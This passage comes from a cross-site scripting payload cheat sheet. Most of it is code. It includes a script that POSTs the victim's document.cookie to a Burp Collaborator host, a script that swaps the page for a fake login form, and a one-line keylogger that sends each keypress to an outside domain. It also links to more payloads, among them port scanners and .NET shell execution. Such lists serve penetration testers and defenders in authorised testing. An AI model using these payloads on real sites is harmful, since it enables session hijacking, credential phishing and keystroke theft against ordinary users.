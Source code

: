 ### CORS

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### UI Redressing

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

### Javascript Keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other Ways

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)


## Identify an XSS Endpoint

This payload opens the debugger in the developer console rather than triggering a popup alert box.

```javascript
<script>debugger;</script>
```

Modern applications with content hosting can use [sandbox domains][sandbox-domains]

